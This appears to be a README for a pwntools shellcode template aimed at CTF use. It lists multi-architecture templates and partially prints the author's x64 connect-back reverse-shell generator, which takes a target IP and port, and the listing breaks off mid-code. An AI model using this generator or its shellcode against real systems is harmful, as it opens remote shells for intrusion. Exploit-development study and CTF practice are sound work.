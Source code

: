 let's see this various options in action, still with a simple `execve` shellcode:

![](pics/example2.gif)

## Various architectures templates

 
+ [Template for x86 64 bits](./template.x64.py)
+ [Template for arm 32 bits](./template.arm.py)
+ [Template for arm 64 bit, aarch64](./template.aarch64.py)
+ [Template for mips](./template.mips.py)


## passing arguments to your shellcode, and example

So, for example, you can also give some arguments to your shellcode, to customize it.

As an example, I will share with you my `Connect Back Reverse Shellcode generator` that I use in ctf..

it's 65bytes in x64, and contains no zeroes:

you can use this syntax:

```sh
python3 connect.back.reverse.shell.x64.without.zeroes.py <IP> <PORT> [RUN|GDB|EXE]
```


you indicate the destination IP and port for connection, and you can RUN or DEBUG or produce an EXE..

+ [x64 Connect back shellcode generator](./connect.back.reverse.shell.x64.without.zeroes.py)

```python
from pwn import *
import ctypes, struct, sys, os, socket

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
#context.terminal = ["tmux", "splitw", "-h"]    # for command line terminal, launch tmux first before launching python code
context.log_level = 'error'

if (len(sys.argv) < 3):
  print('%s <IP> <PORT> [RUN]' % (sys.argv[0]))
  exit(1)

# define HOST & PORT here or in command line
IP, PORT = (sys.argv[1], int(sys.argv[2],10)) if len(sys.argv) > 2 else ('127.0.0.1', 12490)

def sockaddr():
    family = struct.pack('H', socket.AF_INET)
    portbytes = struct.pack('H', socket.htons(PORT))
    ipbytes = socket.inet_aton(IP)
    number = struct.unpack('Q', family + portbytes + ipbytes)
    number = -number[0]        #negate
    return hex((number + (1 << 64)) % (1 << 64))

def dumpit(shellc):
  print('shellcode length: {:d} bytes'.format(len(shellc)))
  # dump as hex number array
  print('
"\x{}"'.format('\x'.join([format(b, '02x') for b in bytearray(shellc)])))
  # dump as C array
  print("
```